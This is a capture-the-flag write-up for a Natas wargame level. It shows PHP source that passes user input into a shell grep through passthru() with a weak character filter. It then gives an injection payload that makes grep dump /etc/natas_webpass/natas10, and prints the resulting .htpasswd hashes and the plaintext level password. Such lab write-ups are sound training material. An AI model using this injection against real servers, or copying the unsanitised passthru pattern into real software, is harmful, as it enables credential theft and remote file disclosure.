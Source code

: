 ```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Since it blocks us from using `;`, we can see that the key input is before dictionary.txt and from previous challenges, we know the flag will be in `/etc/natas_webpass/natasXX` so with grep we can check multiple files like `grep -i term file1 file2 file3`, so our key can just be the file we want to check.. term will be what we search for, so with some regex for any line `.*` we can use:

`.* /etc/natas_webpass/natas10`

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
```

There's our next password!

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`